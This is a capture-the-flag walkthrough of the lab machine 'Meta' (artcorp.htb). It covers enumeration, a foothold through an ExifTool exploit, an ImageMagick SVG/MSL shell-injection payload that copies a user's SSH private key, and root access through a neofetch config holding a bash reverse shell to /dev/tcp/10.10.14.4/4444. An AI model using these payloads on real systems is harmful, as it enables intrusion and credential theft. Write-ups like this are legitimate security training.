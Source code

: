 ## Nmap
```
└─$ nmap -sC -sV 10.10.11.140
Starting Nmap 7.91 ( https://nmap.org ) at 2022-05-01 04:50 EDT
Nmap scan report for artcorp.htb (10.10.11.140)
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 12:81:17:5a:5a:c9:c6:00:db:f0:ed:93:64:fd:1e:08 (RSA)
|   256 b5:e5:59:53:00:18:96:a6:f8:42:d8:c7:fb:13:20:49 (ECDSA)
|_  256 05:e9:df:71:b5:9f:25:03:6b:d0:46:8d:05:45:44:20 (ED25519)
80/tcp open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.04 seconds
```

Port `80` is opened , let's check 

![WebPage](https://user-images.githubusercontent.com/8396956/166138534-ef70f047-2d20-4769-aaee-8096e8d56be8.png)

adding `artcorp.htb` into `/etc/hosts`
then i tried to scan the webpages but got nothing 

## Fuzzing
```
└─$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --sc 200 -H "HOST:FUZZ.artcorp.htb" http://artcorp.htb/                                                                                      148 ⨯ 1 ⚙
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://artcorp.htb/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                   
=====================================================================

000001492:   200        9 L      24 W       247 Ch      "dev01 - dev01"  

```

Adding `dev01.artcorp.htb` into /etc/hosts

![dev1](https://user-images.githubusercontent.com/8396956/166138808-15d7987a-29ed-401a-89ee-1e80a1627981.png)

Go to  `MetaView`

![dev2](https://user-images.githubusercontent.com/8396956/166138812-61c7a303-e142-4c10-8cb7-a6d7ac18b97a.png)

Upload any image as a test

![uploadTest](https://user-images.githubusercontent.com/8396956/166138961-df1aac49-54e3-456c-b254-1e2bd0745a67.png)

trying to exploit this upload function , found that the result looks like the `exiftool` result 

![exiftool](https://user-images.githubusercontent.com/8396956/166139055-f492b990-65eb-45fa-b6c1-66f6c2fd671d.png)

after searching for exploit to `exiftool` found [Exiftool Exploitation](https://github.com/convisolabs/CVE-2021-22204-exiftool)

Don't forget to change  `IP & PORT` then run `exploit.py`

![pythonEXP](https://user-images.githubusercontent.com/8396956/166139282-119b8615-310b-479b-aaf9-4ef806ff6b53.png)

upload `image.jpg` and listen to port 

## Foothold
![wwwdata](https://user-images.githubusercontent.com/8396956/166139405-00d45680-d630-4933-a329-d895aeab2a88.png)

## Privilege escalation

After Enumeration and using tools got a good result with `pspy64`

First download it on the victim machine

![openpython](https://user-images.githubusercontent.com/8396956/166139724-61d52778-8a90-4f8b-af72-ea8e9ab2a5cf.png)
![psupload](https://user-images.githubusercontent.com/8396956/166139729-1f121464-c7cb-49ab-bd78-dfe8a73712c8.png)

Run `pspy64` we will find a script

```
2022/05/01 05:18:01 CMD: UID=1000 PID=1437   | /bin/bash /usr/local/bin/convert_images.sh 
2022/05/01 05:18:01 CMD: UID=0    PID=1436   | /usr/sbin/CRON -f 
2022/05/01 05:18:01 CMD: UID=1000 PID=1435   | /bin/bash /usr/local/bin/convert_images.sh 
2022/05/01 05:18:01 CMD: UID=1000 PID=1433   | /bin/sh -c /usr/local/bin/convert_images.sh 
```

here is the content of `convert_images.sh`

```
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```

this uses `mogrify` to change all files into png , `The mogrify program is a member of the ImageMagick suite of tools`

```
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ /usr/local/bin/mogrify -version
<tcorp.htb/metaview$ /usr/local/bin/mogrify -version
Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29 https://imagemagick.org
Copyright: © 1999-2020 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): fontconfig freetype jng jpeg png x xml zlib
```
searching for exploitation to this version and found [Exploitation](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html)
Create `poc.svg`

```
<image authenticate='ff" `echo $(id)> /dev/shm/0wned`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```


move it into `/var/www/dev01.artcorp.htb/convert_images/`

check `/dev/shm/` 
```
www-data@meta:/tmp$ cd /dev/shm
cd /dev/shm
www-data@meta:/dev/shm$ ls -la
ls -la
total 4
drwxrwxrwt  2 root   root     60 May  1 06:31 .
drwxr-xr-x 16 root   root   3080 May  1 04:31 ..
-rw-r--r--  1 thomas thomas   54 May  1 06:29 0wned
www-data@meta:/dev/shm$ cat 0wned
cat 0wned
uid=1000(thomas) gid=1000(thomas) groups=1000(thomas)

```
we execute commands as `thomas` let's get ssh to connect by changing first line to 

``` <image authenticate='ff" `echo $(cat ~/.ssh/id_rsa)> /dev/shm/id_rsa`;"'> ```

```
www-data@meta:/dev/shm$ ls -la
ls -la
total 8
drwxrwxrwt  2 root   root     80 May  1 06:41 .
drwxr-xr-x 16 root   root   3080 May  1 04:31 ..
-rw-r--r--  1 thomas thomas   54 May  1 06:29 0wned
-rw-r--r--  1 thomas thomas 2590 May  1 06:41 id_rsa
```
We got ssh of user `thomas` ,  download it into attacker machine 
```
www-data@meta:/dev/shm$ python3 -m http.server 8005
python3 -m http.server 8005
Serving HTTP on 0.0.0.0 port 8005 (http://0.0.0.0:8005/) ...
10.10.14.4 - - [01/May/2022 06:42:26] "GET /id_rsa HTTP/1.1" 200 -
```
then give it right permissions `chmod 600 id_rsa` and connect using the key ^_^

![thomas](https://user-images.githubusercontent.com/8396956/166142546-6f15b3e9-9ef6-424b-baf9-d16a331ff417.png)

## Root

```
thomas@meta:~$ sudo -l
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"
```

searching for `neofetch` exploitation , found [neofetch](https://gtfobins.github.io/gtfobins/neofetch/)

but the problem we must enter specific parameters

let's edit the config file 
```
thomas@meta:~$ cd ~/.config/neofetch/
thomas@meta:~/.config/neofetch$ ls -la
total 24
drwxr-xr-x 2 thomas thomas  4096 Dec 20 08:33 .
drwxr-xr-x 3 thomas thomas  4096 Aug 30  2021 ..
-rw-r--r-- 1 thomas thomas 14591 Aug 30  2021 config.conf
thomas@meta:~/.config/neofetch$ 
```
edit it with `nano config.conf` and add reverse shell ```/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.4/4444 0>&1"```
```
thomas@meta:~/.config/neofetch$ nano config.conf
thomas@meta:~/.config/neofetch$ export XDG_CONFIG_HOME="$HOME/.config"
thomas@meta:~/.config/neofetch$ nano config.conf
thomas@meta:~/.config/neofetch$ sudo /usr/bin/neofetch \"\"
```
```
┌──(mido㉿kali)-[~]
└─$ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.4] from artcorp.htb [10.10.11.140] 46732
root@meta:/home/thomas/.config/neofetch# 
```

## Rooted 





